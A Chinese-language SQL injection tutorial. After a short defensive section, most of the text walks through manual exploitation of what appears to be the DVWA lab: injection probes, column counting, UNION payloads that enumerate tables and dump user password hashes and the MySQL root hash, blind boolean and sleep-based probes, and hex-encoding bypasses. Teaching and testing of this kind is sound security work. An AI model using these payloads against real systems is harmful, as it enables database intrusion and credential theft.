

sql 漏洞注入
漏洞描述
Web 程序代码中对于用户提交的参数未做过滤就直接放到 SQL 语句中执行，导致参数中的特殊字符打破了 SQL 语句原有逻辑，黑客可以利用该漏洞执行任意 SQL 语句，如查询数据、下载数据、写入webshell 、执行系统命令以及绕过登录限制等。
测试方法
在发现有可控参数的地方使用 sqlmap 进行 SQL 注入的检查或者利用，也可以使用其他的 SQL 注入工具，简单点的可以手工测试，利用单引号、and 1=1 和 and 1=2 以及字符型注入进行判断！推荐使用 burpsuite 的 sqlmap 插件，这样可以很方便，鼠标右键就可以将数据包直接发送到 sqlmap 里面进行检测了！
代码层最佳防御 sql 漏洞方案：采用 sql 语句预编译和绑定变量，是防御 sql 注入的最佳方法。
- 所有的查询语句都使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到 SQL 语句中。当前几乎所有的数据库系统都提供了参数化 SQL 语句执行接口，使用此接口可以非常有效的防止 SQL 注入攻击。
- 对进入数据库的特殊字符（ ‘ <>&*; 等）进行转义处理，或编码转换。
- 确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为 int 型。
- 数据长度应该严格规定，能在一定程度上防止比较长的 SQL 注入语句无法正确执行。
- 网站每个数据层的编码统一，建议全部使用 UTF-8 编码，上下层编码不一致有可能导致一些过滤模型被绕过。
- 严格限制网站用户的数据库的操作权限，给此用户提供仅仅能够满足其工作的权限，从而最大限度的减少注入攻击对数据库的危害。
- 避免网站显示 SQL 错误信息，比如类型错误、字段不匹配等，防止攻击者利用这些错误信息进行一些判断。
1.1 判断是否存在注入
回显是指页面有数据信息返回
id =1 and 1=1
id = 1 and 1=2
id = 1 or 1=1
id = ‘1’ or ‘1’=’1’
id=” 1 “or “1”=”1”
无回显是指根据输入的语句页面没有任何变化,或者没有数据库中的内容显示到网页中.
1.2 三种 sql 注释符
# 单行注释 注意与 url 中的#区分，常编码为%23--空格 单行注释 注意为短线短线空格
/（） 多行注释 至少存在俩处的注入 /*/常用来作为空格
1.3 注入流程
是否存在注入并且判断注入类型
1 | 判断字段数 order by |
补充一点，使用 sql 注入遇到转义字符串的单引号或者双引号，可使用 HEX 编码绕过
1.4 SQL 注入分类
SQL 注入分类,按 SQLMap 中的分类来看，SQL 注入类型有以下 5 种:
UNION query SQL injection （可联合查询注入）
Stacked queries SQL injection （可多语句查询注入）堆叠查询
Boolean-based blind SQL injection （布尔型注入）
Error-based SQL injection （报错型注入）
Time-based blind SQL injection （基于时间延迟注入）
1.5 接受请求类型区分
GET注入
GET 请求的参数是放在 URL 里的，GET 请求的 URL 传参有长度限制中文需要 URL 编码
POST注入
POST 请求参数是放在请求 body 里的，长度没有限制
COOKIE注入
cookie 参数放在请求头信息，提交的时候服务器会从请求头获取
1.6 注入数据类型的区分
int 整形
select from users where id=1
sting 字符型
select from users where username=’admin’
like 搜索型
select * from news where title like ‘%标题%’
1.7 SQL 注入常规利用思路
- 寻找注入点，可以通过 web 扫描工具实现
- 通过注入点，尝试获得关于连接数据库用户名、数据库名称、连接数据库用户权限、操作系统信息、数据库版本等相关信息。
- 猜解关键数据库表及其重要字段与内容（常见如存放管理员账户的表名、字段名等信息）
- 还可以获取数据库的 root 账号 密码—思路
- 可以通过获得的用户信息，寻找后台登录。
- 利用后台或了解的进一步信息。
1.8 手工注入常规思路
- 判断是否存在注入，注入是字符型还是数字型
- 猜解 SQL 查询语句中的字段数 order by N
- 确定显示的字段顺序
- 获取当前数据库
- 获取数据库中的表
- 获取表中的字段名
- 查询到账户的数据
1.9 SQL 详细注入过程
猜数据库：1' union select 1,database()
payload 利用另一种方式：1' union select user(),database() version()
得到数据库名：dvwa
PS：union 查询结合了两个 select 查询结果，根据上面的 order by 语句我们知道查询包含两列，为了能够现实两列查询结果，我们需要用 union 查询结合我们构造的另外一个 select.注意在使用 union 查询的时候需要和主查询的列数相同。
猜表名：1' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database()
得到表名：guestbook,users
group_concat 分组
猜列名：1' union select 1,group_concat(column_name) from information_schema.columns where table_name =0x7573657273#1' union select 1,group_concat(column_name) from information_schema.columns where table_name ='users'#
(用编码就不用单引号，用单引号就不用编码) 得到列：
user_id,first_name,last_name,user,password,avatar,last_login,failed_login,id,usernam e,password
猜用户数据：列举出几种 payload:1
2
31' or 1=1 union select
group_concat(user_id,first_name,last_name),group_concat(password) from users # 1' union select null,concat_ws(char(32,58,32),user,password) from users # 1' union select null,group_concat(concat_ws(char(32,58,32),user,password)) from
users #
得到用户数据：
admin 5f4dcc3b5aa765d61d8327deb882cf99
猜 root 用户：#1' union select 1,group_concat(user,password) from mysql.user#
得到 root 用户信息：
root*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
1.10.1 判断 SQL 注入
输入 1’and ‘1’=’1 页面返回用户信息 1’and ‘1’=’2 页面返回不一样的信息 基本可以确定存在 SQL 注入漏洞
1.10.2 判断字段数
使用语句 order by 确定当前表的字符数
order by 1 如果页面返回正常 字段数不少于 1,order by 2 不少于 2，一直如此类
推直到页面出错。正确的字段数是出错数字减少 1
公式 order by n-11
2
31' order by 1--+ 正常
1' order by 2--+ 正常
1' order by 3--+ 出错
1.10.3 联合查询注入获取敏感信息
联合查询 输入 数字 查询页面是否有数字输出。输出的地方就是显示的内容但
是被数字替换了。-1 是让前面的表查询的内容不存在。所以就会显示显示数字。
-1' union select 1,2--+

把数据替换成 mysql 的函数例如 md5(1) 这会在页面返回 1 的 md5 加密信息。
使用这个函数一般是白帽子扫描器的匹配存在漏洞的特征码。
接着获取 mysql 版本 当前用户权限 当前数据库
version() mysql 版本
database() 当前数据库
user() 当前用户名
group_concat()分组打印字符串
把函数直接替换数字查看页面-1' union select 1,version()--+
使用组命令查询多个元素，可用16进制转化为标点隔开
如果你想一次打印多个敏感信息可以使用 group_concat()把查询的函数写人里
0x3A 是：这个符号的十六进制 在 mysql 里会自动转成符号：
ASCII码表在线查询-1' union select 1,group_concat(user(),0x3A,database(),0x3A,version())--+
1.10.4 联合查询注入通过 information_schema 获取表
在黑盒的情况下是不知道当前库有什么表的，可以通过 mysql 自带的
information_schema 查询当前库的表。
查询当前库的表 limit 1 相当于 limit 1,1 表示显示第一个 1 改成 2 就是第二个
如此类推
第一个表-1' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1)--+
第二个表-1' union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,2)--+
1.10.5 联合查询注入通过 information_schema 获取字
同样的查询字段也可以通过内置库 information_schema 里的 COLUMNS
这个表记录所有表的字段。通过 COLUMNS 查询 users 表的字段。
获取 users 表第一个字段名-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1))--+
获取 users 表第二个字段名-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 2,1))--+
获取 users 表第三个字段名-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 3,1))--+
1.10.6 通过联合查询表里的内容
通过以上的黑盒查询 获取库名、表名、字段、那么就可以查询某个表的内容。-1' union select 1,(select group_concat(user,0x3a,password) from users limit 1)--+
1.11 判断盲注入
输入 SQL 注入检测语句 判断页面是否不一样，如果不一样大概会存在 SQL 注
入漏洞 1'and '1'='1 一样 1'and '1'='2 不一样，如果输入检测语句页面没有任何改变可以使用延时语句进行检测 1'and sleep(10)--+ 函数 sleep() 在 mysql 是延时返回的意思 。以秒为单位 sleep(10) 即延时 10 秒执行。
1.11.1 boolean 布尔型注入攻击
布尔型注入攻击，因为页面不会返回任何数据库内容，所以不能使用联合查询将敏感信息显示在页面，但是可以通过构造 SQL 语句，获取数据。
布尔型盲注入用到的 SQL 语句 select if(1=1,1,0) if() 函数在 mysql 是判断，第一个参数表达式，如果条件成立，会显示1，否则显示 0 。 1=1 表达式可以换成构造的 SQL 攻击语句。1' and if(1=1,1,0)--+ 页面返回正常，这个语句实际上是 1’and 1，真 and 真 结果为真，1 是存在记录的。所以返回正确页面。
1’ and if(1=2,1,0)—+ 页面返回错误，这个语句就是 1’and 0 ，真 and 假 结果为假，整个 SQL ID 的值也是 0 所以没有记录，返回错误页面。